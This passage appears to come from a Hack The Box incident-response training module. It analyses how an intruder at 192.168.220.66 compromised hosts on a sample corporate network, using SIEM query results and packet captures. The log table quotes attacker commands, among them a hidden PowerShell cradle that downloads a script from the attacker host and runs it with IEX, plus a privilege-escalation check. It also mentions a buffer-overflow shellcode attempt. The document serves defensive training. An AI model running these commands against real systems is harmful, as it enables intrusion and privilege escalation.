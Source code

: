 ![](https://academy.hackthebox.com/storage/modules/238/5.png)

**Brief Analysis of 192.168.220.66**

From the logs, we identified four hosts on the network segment with corresponding IP addresses and hostnames. The host `192.168.220.66`, previously observed in the logs of `WKST01.samplecorp.com`, confirms the presence of an unauthorized entity in the internal network.

|IP|Hostname|
|---|---|
|192.168.220.20|DC01.samplecorp.com|
|192.168.220.200|WKST01.samplecorp.com|
|192.168.220.101|HR01.samplecorp.com|
|192.168.220.202|ENG01.samplecorp.com|

The below table is the result of a SIEM query that aimed to identify all instances of command execution initiated from `192.168.220.66`, based on data from `WKST01.samplecorp.com`.

|event_data.CommandLine.keyword: Descending|beat.hostname.keyword: Descending|Count|
|---|---|---|
|`cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1`|WKST01|5|
|`cmd.exe /Q /c dir 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1`|WKST01|4|
|`powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX`|WKST01|2|
|`whoami`|WKST01|1|
|`...`|...|...|
|`powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.220.66/test.php'); $m = Get-ModifiableService; $m`|HR01|1|

The results suggest that the unauthorized entity has successfully infiltrated the hosts: `WKST01.samplecorp.com` and `HR01.samplecorp.com`.

**HR01.samplecorp.com**

`HR01.samplecorp.com` was investigated next, as the unauthorized entity, `192.168.220.66`, was shown to establish a connection with `HR01.samplecorp.com` at the earliest possible moment in the packet capture.

![](https://academy.hackthebox.com/storage/modules/238/6.png)

Network traffic details suggest a buffer overflow attempt on the service running at port `31337` of `HR01.samplecorp.com`.

![](https://academy.hackthebox.com/storage/modules/238/7.png)

The network traffic was exported as raw binary for further analysis.

![](https://academy.hackthebox.com/storage/modules/238/8.png)

The extracted binary was analyzed in a shellcode debugger, `scdbg`.
